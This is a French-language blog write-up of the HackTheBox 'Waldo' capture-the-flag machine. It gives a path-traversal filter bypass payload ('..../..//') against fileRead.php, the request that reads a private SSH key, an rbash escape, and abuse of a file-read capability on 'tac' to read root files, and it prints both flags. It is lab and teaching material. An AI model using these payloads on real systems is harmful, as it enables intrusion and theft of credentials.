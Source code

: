 ```yaml
---
title: Solution du CTF Waldo de HackTheBox
tags: [CTF,HackTheBox]
---
```


Il était où hein le Charlie ?
-----------------------------

Un port SSH, un port HTTP... difficile de faire plus classique comme début.  

Sur la page d'index un système de gestion de listes :  

![Waldo CTF HackTheBox list manager](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/waldo_list_manager.png)

En ouvrant les dev-tools on trouve des requêtes XHR comme cette requête vers *dirRead.php* pour lister les listes et qui sent bon le path traversal :  

![Waldo CTF HackTheBox list manager XHR](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/waldo_xhr.png)

Si on accède à une liste c'est *fileRead.php* qui est appelé. Même pressentiment :)  

Le plus pratique est d'intercepter la requête à travers [Zed Attack Proxy](https://www.owasp.org/index.php/OWASP_Zed_Attack_Proxy_Project) pour pouvoir ensuite l'éditer et la retransmettre.  

On remarque vite une particularité si on tente de remonter dans le path :  

```plain
path= => [".","..",".list","background.jpg","cursor.png","dirRead.php","face.png","fileDelete.php","fileRead.php","fileWrite.php","index.php","list.html","list.js"]
path=. => [".","..",".list","background.jpg","cursor.png","dirRead.php","face.png","fileDelete.php","fileRead.php","fileWrite.php","index.php","list.html","list.js"]
path=.. => [".","..","html","localhost"]
path=../.. => [".","..","html","localhost"]
path=../../ => [".","..",".list","background.jpg","cursor.png","dirRead.php","face.png","fileDelete.php","fileRead.php","fileWrite.php","index.php","list.html","list.js"]
```

Au boût d'un moment on revient au répertoire courant, il y a donc un *str\_replace()* qui doit corriger notre path.  

Si on part de l'idée que le filtre est sur ../../ alors on peut le précéder de .. et ajouter un / final ainsi la suite de caractères ..../..// correspondra à une remontée dans l’arborescence :  

```plain
path=..../..//..../..// => [".","..","cache","empty","lib","local","lock","log","opt","run","spool","tmp","www"]
path=..../..//..../..//..../..// => [".","..",".dockerenv","bin","dev","etc","home","lib","media","mnt","proc","root","run","sbin","srv","sys","tmp","usr","var"]
```

On se balade jusqu'à ce dossier :  

```plain
path=..../..//..../..//..../..//home/nobody
[".","..",".ash_history",".ssh",".viminfo","l.sh","user.txt"]
```

Et dans le dossier *.ssh* on voit un fichier *.monitor* qui s'avère être... la clé privée SSH :)  

Pour obtenir le contenu la même faille est présente sur l'autre script ce qui nous amène à cette requête :  

```plain
POST http://10.10.10.87/fileRead.php HTTP/1.1
file=..../..//..../..//..../..//home/nobody/.ssh/.monitor
```

Free Charlie
------------

```plain
$ ssh -i waldo.key nobody@10.10.10.87
Welcome to Alpine!

The Alpine Wiki contains a large amount of how-to guides and general
information about administrating Alpine systems.
See <http://wiki.alpinelinux.org>.
waldo:~$ id
uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)
```

Hmmm Charlie semble être enfermé dans un environnement *Docker* (*Alpine* est une version de Linux souvent utilisée dans ces envs parce que très allégée).  

Cela est très vite confirmé avec les interfaces réseau :  

```plain
docker0   Link encap:Ethernet  HWaddr 02:42:D3:28:1C:FD
          inet addr:172.17.0.1  Bcast:172.17.255.255  Mask:255.255.0.0
          UP BROADCAST MULTICAST  MTU:1500  Metric:1
          RX packets:0 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0
      RX bytes:0 (0.0 B)  TX bytes:0 (0.0 B)
```

L'accès est suffisant pour avoir le flag utilisateur (*32768bcd7513275e085fd4e7b63e9d24*).  

Prends la clé ! Sors sors !
---------------------------

Dans la liste des *authorized\_keys* de notre compte *nobody* se trouve une référence à un certain *monitor* :  

```plain
ssh-rsa AAAAB3NzaC1---snip---Y4jBHvf monitor@waldo
```

Si on réutilise la clé pour accéder au serveur SSH depuis le docker :  

![Waldo CTF HackTheBox monitor ssh account ascii art](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/waldo_ascii_art.png)

On peut facilement bypasser le lancement du rbash (un bash restreint) en spécifiant le shell que l'on souhaite à SSH (on utilisera ici les options -t bash --noprofile).  

On obtient un shell à première vue limitée mais il s'agit en réalité du PATH peu remplis, ce qui est vite corrigé :  

```plain
monitor@waldo:~$ echo $PATH
/home/monitor/bin:/home/monitor/app-dev:/home/monitor/app-dev/v0.1
monitor@waldo:~$ export PATH=/bin:/usr/bin:/sbin:/usr/sbin:/usr/local/bin:/usr/local/sbin:$PATH
```

Say Cap-tain, Say wut ?
-----------------------

Après avoir tourné un moment à chercher un chemin classique d'exploitation il est temps de se pencher sur les fichiers présents dans le dossier app-dev.  

On trouve un exécutable *logMonitor* à l'usage suivant :  

```plain
Usage: logMonitor [-aAbdDfhklmsw] [--help]
```

Contrairement à ce qu'on pouvait espérer l'option *--help* ne donne pas d'aide détaillée mais qu'importe puisque le code C est aussi présent :  

```c
{"auth", no_argument, 0, 'a'},
{"alternatives", no_argument, 0, 'A'},
{"btmp", no_argument, 0, 'b'},
{"dpkg", no_argument, 0, 'd'},
{"daemon", no_argument, 0, 'D'},
{"faillog", no_argument, 0, 'f'},
{"help", no_argument, 0, 'h'},
{"kern", no_argument, 0, 'k'},
{"lastlog", no_argument, 0, 'l'},
{"messages", no_argument, 0, 'm'},
{"syslog", no_argument, 0, 's'},
{"wtmp", no_argument, 0, 'w'},
```

En fonction de l'option choisie un path hardcodé est recopié vers une variable *filename*. Une fonction *printFile* est ensuite appelée qui affiche le fichier demandé via une boucle avec *fgetc* et *printf* (beurk).  

Parmi les paths correspondantq aux options on trouve */var/log/auth.log*, */var/log/faillog*, */var/log/wtmp*, etc autant dire des fichiers généralement pas accessibles à tout le monde.  

D'ailleurs si on lance *logMonitor -f* pour obtenir le *faillog* on obtient le message d'erreur *Cannot open file*.  

Le binaire n'est pas setuid et sudo n'est pas installé... logique quoi.  

En revanche une fois dans le sous dossier *v0.1* le binaire *logMonitor-0.1* parvient à lire le fichier... avec les mêmes observations (il n'est pas setuid) so what the fuck !?  

On fait un *getcap* dessus pour lister ses [capabilities](http://man7.org/linux/man-pages/man7/capabilities.7.html) et surprise :  

```plain
logMonitor-0.1 = cap_dac_read_search+ei
```

Ce programme a le super-pouvoir d'accéder à n'importe quel fichier du système en se moquant bien des permissions.  

Mais après avoir bien épluché le code C ce dernier ne semble pas faillible. Je ne suis pas au point sur les détails de fonctionnement des *capabilities* alors dans le doute j'ai tenté de hooker l'appel à *puts()* dans le code (via un *LD\_PRELOAD*) mais sans trop de surprises ça n'a pas été pris en compte.  

Finalement il fallait faire un gros *getcap* sur le disque pour trouver un autre binaire avec les même super-pouvoirs :  

```plain
monitor@waldo:~/app-dev$ getcap -r / 2> /dev/null
/usr/bin/tac = cap_dac_read_search+ei
/home/monitor/app-dev/v0.1/logMonitor-0.1 = cap_dac_read_search+ei

monitor@waldo:~/app-dev$ tac /root/root.txt
8fb67c84418be6e45fbd348fd4584f6c
```


*Published December 15 2018 at 19:09*
